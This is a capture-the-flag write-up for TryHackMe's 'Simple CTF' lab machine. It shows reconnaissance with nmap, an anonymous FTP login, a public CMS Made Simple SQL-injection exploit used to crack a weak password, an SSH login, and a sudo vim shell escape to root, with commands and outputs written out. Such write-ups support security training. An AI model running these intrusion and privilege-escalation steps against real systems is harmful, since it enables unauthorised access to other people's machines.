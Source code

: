 # Simple CTF
Beginner level ctf

![](Images/default_tryhackme.png)
## How many services are running under port 1000?
    
Let's run the nmap scan to see what ports are open.
```text
# Nmap 7.91 scan initiated Sat Jun  5 17:31:14 2021 as: nmap -sV -sC -Pn -oN nmap/scan 10.10.225.250
Nmap scan report for 10.10.225.250
Host is up (0.22s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 17:32:10 2021 -- 1 IP address (1 host up) scanned in 56.85 seconds
```
We got our answer 2222, 2048. So answer was 2. Let's hope over to ftp server **anonymous logins are allowed**. 

```bash
┌─[visith@parrot]─[~/CTF/thm/simple-ctf]
└──╼ $ftp 10.10.225.250
Connected to 10.10.225.250.
220 (vsFTPd 3.0.3)
Name (10.10.225.250:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.01 secs (28.6564 kB/s)
ftp> exit
221 Goodbye.
```

1. What is running on the higher port?
2. What's the CVE you're using against the application?
3. To what kind of vulnerability is the application vulnerable?
Hint : You can use /usr/share/seclists/Passwords/Common-Credentials/best110.txt to crack the pass 
5. What's the password?
6. Where can you login with the details obtained?
7. What's the user flag?
8. Is there any other user in the home directory? What's its name?
9. What can you leverage to spawn a privileged shell?
10. What's the root flag?



























ftp login

```text
┌─[visith@parrot]─[~/CTF/thm/simple-ctf]
└──╼ $cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!


```

sql injection
```bash
CMS Made Simple < 2.2.10 - SQL Injection                                               | php/webapps/46635.py
```

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/simple-ctf]
└──╼ $python exploit.py -u http://10.10.225.250/simple/ --crack -w /opt/seclist/Passwords/Common-Credentials/best110.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```bash
─[✗]─[visith@parrot]─[~/CTF/thm/simple-ctf]
└──╼ $ssh mitch@10.10.225.250 -p 2222
The authenticity of host '[10.10.225.250]:2222 ([10.10.225.250]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.225.250]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.225.250's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ /usr/bin/script -qc /bin/bash /dev/null
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
mitch@Machine:~$ cd /home
mitch@Machine:/home$ ls
mitch  sunbath
```


```bash
mitch@Machine:/dev/shm$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim


```
```bash
root@Machine:/dev/shm# sudo /usr/bin/vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^Gls
/bin/sh: 1: ot found
/bin/sh: 1: 2Rls: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
linlog.txt  pulse-shm-1034407193  pulse-shm-2781484612	pulse-shm-672862991
linpeas.sh  pulse-shm-2251046261  pulse-shm-4152258295
# cd ~
# ls
user.txt
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```